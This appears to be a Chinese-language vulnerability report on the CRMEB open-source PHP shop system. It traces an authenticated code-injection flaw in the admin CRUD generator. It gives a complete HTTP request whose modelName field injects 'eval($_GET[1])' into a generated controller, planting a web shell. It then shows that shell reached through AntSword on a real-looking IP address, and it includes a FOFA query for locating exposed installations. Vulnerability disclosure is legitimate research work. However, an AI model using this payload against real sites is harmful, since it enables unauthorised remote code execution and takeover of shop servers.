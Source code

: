 Crmeb审计报告

1.项目介绍

项目地址：https://gitee.com/ZhongBangKeJi/CRMEB

项目star数：11.7k

项目介绍：🔥CRMEB开源商城免费开源多语言商城系统，Tp6框架商城，系统可商用；包含小程序商城、H5商城、公众号商城、PC商城、App，支持分销、拼团、砍价、秒杀、优惠券、积分、会员等级、小程序直播、页面DIY，前后端分离，方便二开，使用文档、接口文档、数据字典、二开文档/视频教程，欢迎大家提出宝贵意见和建议

![image](https://github.com/1dreamGN/CVE/assets/112082417/fdae9fbb-8bec-4fa4-94ac-bafc85476dd6)

fofa语法：icon_hash="-847565074"

![image](https://github.com/1dreamGN/CVE/assets/112082417/0d79501c-ce76-4cbf-b802-33f582543b15)

2.审计及复现过程

漏洞所在文件：app/adminapi/controller/v1/setting/SystemCrud.php 

![image](https://github.com/1dreamGN/CVE/assets/112082417/90cba4a1-c6a8-4c7c-9323-f9ad2275ef7e)

crud功能  继续跟踪createCrud函数

文件路径：app/services/system/SystemCrudServices.php

![image](https://github.com/1dreamGN/CVE/assets/112082417/222ee4af-42e3-4163-9da4-4603b0f48730)

![image](https://github.com/1dreamGN/CVE/assets/112082417/bee3942c-44fe-417c-9f59-3f73705ea35a)

跟随makeFile函数

![image](https://github.com/1dreamGN/CVE/assets/112082417/bcc6ff21-6890-49b7-b2f5-a3d6107ef4ed)

![image](https://github.com/1dreamGN/CVE/assets/112082417/f2222f2d-0a4f-4ba9-a33b-d71d1765bf65)

关键错误点

![image](https://github.com/1dreamGN/CVE/assets/112082417/73ccde92-cd68-4b40-bc7a-09fcc929acd6)

跟随FileService::batchMakeFiles

![image](https://github.com/1dreamGN/CVE/assets/112082417/57ae854b-97e8-4272-9bb4-e6d40e09aaab)

全程无过滤创建controller控制器

下面进行复现

后台登录获取jwt-token

![image](https://github.com/1dreamGN/CVE/assets/112082417/2d82fe16-e236-4498-b492-79e8e2b8a776)

构造payload并请求

```
POST /adminapi/system/crud HTTP/1.1
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/json
Host: 222.186.134.155:99
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJiYzUzYmJkZWEzNjk1ODRiNDg1NTkwZGEzZmY3ZWQzOCIsImlzcyI6IjIyMi4xODYuMTM0LjE1NTo5OSIsImF1ZCI6IjIyMi4xODYuMTM0LjE1NTo5OSIsImlhdCI6MTY5NTQ5NTI4NywibmJmIjoxNjk1NDk1Mjg3LCJleHAiOjE2OTgwODcyODcsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.r8iA7llTlmqiNCm9_3MBUE6HVEjV13USJHi08FYPGfI

{ "pid": 25, "tableName": "test", "modelName": "*/?><?php namespace app\\adminapi\\controller\\crud; exit(eval($_GET[1]));//**", "isTable": 1, "menuName": "", "filePath": { "controller": "app/adminapi/controller/crud/Test.php", "route": "app/adminapi/route/crud/test.php" }, "tableField": [ { "field": "id", "field_type": "int", "default": "", "comment": "自增ID", "required": false, "is_table": true, "table_name": "ID", "limit": "15", "primaryKey": 1, "from_type": "" }, { "field": "", "field_type": "varchar", "default": "", "default_type": "-1", "comment": "test", "required": false, "is_table": true, "table_name": "test", "limit": 255, "primaryKey": 0, "from_type": "input", "search": "", "dictionary_id": 0, "hasOne": [], "index": false } ], "deleteField": []}

```

这里返回报错。数据库报错。但是文件已经生成

![image](https://github.com/1dreamGN/CVE/assets/112082417/9acda77e-9a2f-49d4-909c-15671b88f7e1)


木马地址：

http://222.186.134.155:99/adminapi/crud/test?

param：1=phpinfo();

测试antsword链接

![image](https://github.com/1dreamGN/CVE/assets/112082417/68da463b-e881-44c6-91e4-4e6ba0d4b980)

设置jwt-token 这里也可以生成文件到无需授权的目录

![image](https://github.com/1dreamGN/CVE/assets/112082417/8b229072-166f-4f2e-9eac-45f397b8f64d)

	






